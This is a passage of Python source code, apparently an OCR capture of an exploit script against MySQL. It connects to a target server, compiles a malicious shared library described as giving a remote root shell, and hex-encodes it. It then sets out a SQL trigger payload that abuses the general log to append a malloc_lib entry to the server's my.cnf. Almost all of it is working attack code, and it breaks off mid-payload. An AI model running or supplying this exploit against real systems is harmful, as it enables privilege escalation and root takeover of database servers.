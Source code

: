 ```
parser.add_argument('-mycnf', dest='TARGET_MYCNF', required=True, help='Remote my.cnf owned by mysql user')
                  
args = parser.parse_args()
# Connect to database. Provide a user with CREATE TABLE, SELECT and FILE permissions
# CREATE requirement could be bypassed (malicious trigger could be attached to existing tables)
info("Connecting to target server %s and target mysql account '%s@%s' using DB '%s'" % (args.TARGET_HOST, args.TARGET_USER, args.TARGET_HOST, args.TARGET_DB))
try:
    dbconn = mysql.connector.connect(user=args.TARGET_USER, password=args.TARGET_PASS, database=args.TARGET_DB, host=args.TARGET_HOST)
except mysql.connector.Error as err:
    errmsg("Failed to connect to the target: `{``}`".format(err))
    shutdown(1)
try:
    cursor = dbconn.cursor()
    cursor.execute("SHOW GRANTS")
except mysql.connector.Error as err:
    errmsg("Something went wrong: `{``}`".format(err))
    shutdown(2)
privs = cursor.fetchall()
info("The account in use has the following grants/perms: " )
for priv in privs:
    print priv[0]
print ""
# Compile mysql_hookandroot_lib.so shared library that will eventually hook to the mysqld 
# process execution and run our code (Remote Root Shell)
# Remember to match the architecture of the target (not your machine!) otherwise the library
# will not load properly on the target.
info("Compiling mysql_hookandroot_lib.so")
cmd = "gcc -Wall -fPIC -shared -o mysql_hookandroot_lib.so mysql_hookandroot_lib.c -ldl"
process = subprocess.Popen(cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
(result, error) = process.communicate()
rc = process.wait() 
if rc != 0:
    errmsg("Failed to compile mysql_hookandroot_lib.so: %s" % cmd)
    print error 
    shutdown(2)
# Load mysql_hookandroot_lib.so library and encode it into HEX
info("Converting mysql_hookandroot_lib.so into HEX")
hookandrootlib_path = './mysql_hookandroot_lib.so'
with open(hookandrootlib_path, 'rb') as f:
    content = f.read()
    hookandrootlib_hex = binascii.hexlify(content)
# Trigger payload that will elevate user privileges and sucessfully execute SET GLOBAL GENERAL_LOG 
# Decoded payload (paths may differ):
"""
DELIMITER //
CREATE DEFINER=`root`@`localhost` TRIGGER appendToConf
AFTER INSERT
   ON `poctable` FOR EACH ROW
BEGIN
   DECLARE void varchar(550);
   set global general_log_file='/var/lib/mysql/my.cnf';
   set global general_log = on;
   select "
# 0ldSQL_MySQL_RCE_exploit got here :)
[mysqld]
malloc_lib='/var/lib/mysql/mysql_hookandroot_lib.so'
[abyss]
" INTO void;   
   set global general_log = off;
END; //
```